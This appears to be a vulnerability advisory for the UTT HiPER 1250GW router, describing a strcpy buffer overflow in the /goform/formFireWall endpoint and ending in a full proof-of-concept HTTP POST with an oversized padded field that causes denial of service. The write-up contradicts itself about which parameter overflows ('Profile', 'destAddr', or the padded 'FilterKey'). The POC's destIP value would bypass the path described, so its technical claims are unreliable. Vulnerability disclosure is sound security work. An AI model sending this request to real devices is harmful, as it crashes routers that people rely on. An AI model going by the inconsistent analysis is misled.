




# Information

**Vendor of the products:** UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** HiPER 1250GW

**Affected firmware version:** <=v3.2.7-210907-180535

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌]([UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadcenter.php))

# Overview

UTT HiPER 1250GW router has a serious overflow vulnerability. An attacker can control the parameter Profile through the route/goform/formFireWall, which will cause a buffer overflow. Specifically, it can be achieved through "strcpy((char *)(InstPointByIndex + 216), src_1);" to cause a denial of service attack.

# Vulnerability details

The API for invoking the function



1. **Line 1:** User-controlled data from `websGetVar_(a1, "destAddr")` is assigned to `src_5` with no length validation
2. **Line 2:** When destination type is not "ipRange", `src_5` is reassigned to `src_1`
3. **Line 3:** `strcpy()` copies the user-supplied string to a fixed offset `(InstPointByIndex + 216)` within a configuration structure
4. **No bounds checking:** There is no verification that the source string fits within the destination buffer





# POC

```
POST /goform/formFireWall HTTP/1.1
Host: 192.168.1.1
Content-Length: 1822
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="91350026511f147977ce8ea9363e038c", uri="/goform/formArpBindGlobalConfig", algorithm=MD5, response="3c90b3b4d198905f88cf1301ff8ad6b5", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000001a1, cnonce="71e33390dc75c484"
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/IPMac.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zhcn; utt_bw_rdevType=; td_cookie=9472310938
Connection: close

newname=testpolicy&oldname=oldpolicy&applyuserType=1&applyuserData=testdata&index=0&PolicyNames=testpolicy&PolicyEnables=1&ip1=192.168.1.1&ip2=192.168.1.100&destAddr=somedomain.com&destIP=ipRange&timeGrpName=always&note=test&Status=1&FilterTypes=2&FilterKey=AAAAAAAaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&Action=add
```

